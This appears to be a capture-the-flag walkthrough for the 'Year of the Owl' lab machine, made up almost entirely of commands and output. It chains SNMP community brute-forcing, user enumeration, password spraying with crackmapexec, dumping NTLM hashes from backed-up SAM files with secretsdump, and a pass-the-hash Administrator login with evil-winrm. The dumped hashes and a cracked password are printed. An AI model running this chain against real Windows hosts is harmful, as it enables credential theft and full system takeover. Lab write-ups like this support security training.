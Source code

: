 Disclosure

# Year of the Owl

# Reconn

> onesixtyone  10.10.2.33 -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt 

Scanning 1 hosts, 3219 communities
10.10.2.33 [openview] Hardware: Intel64 Family 6 Model 63 Stepping 2 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)

> snmpwalk -c openview -v1 10.10.2.33 1.3.6.1.4.1.77.1.2.25

└─# snmpwalk -c openview -v1 10.10.2.33 1.3.6.1.4.1.77.1.2.25
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
iso.3.6.1.4.1.77.1.2.25.1.1.6.74.97.114.101.116.104 = STRING: "Jareth"
iso.3.6.1.4.1.77.1.2.25.1.1.13.65.100.109.105.110.105.115.116.114.97.116.111.114 = STRING: "Administrator"
iso.3.6.1.4.1.77.1.2.25.1.1.14.68.101.102.97.117.108.116.65.99.99.111.117.110.116 = STRING: "DefaultAccount"
iso.3.6.1.4.1.77.1.2.25.1.1.18.87.68.65.71.85.116.105.108.105.116.121.65.99.99.111.117.110.116 = STRING: "WDAGUtilityAccount"

─# crackmapexec smb 10.10.127.203 -u Jareth -p /opt/rockyou.txt


SMB         10.10.127.203   445    YEAR-OF-THE-OWL  [+] year-of-the-owl\Jareth:sarah 


Found in Recycle.bin 
sam.bak
system.bak

─# impacket-secretsdump  -sam sam.bak -system system.bak -ts local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::

-# evil-winrm -i {ip} -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a
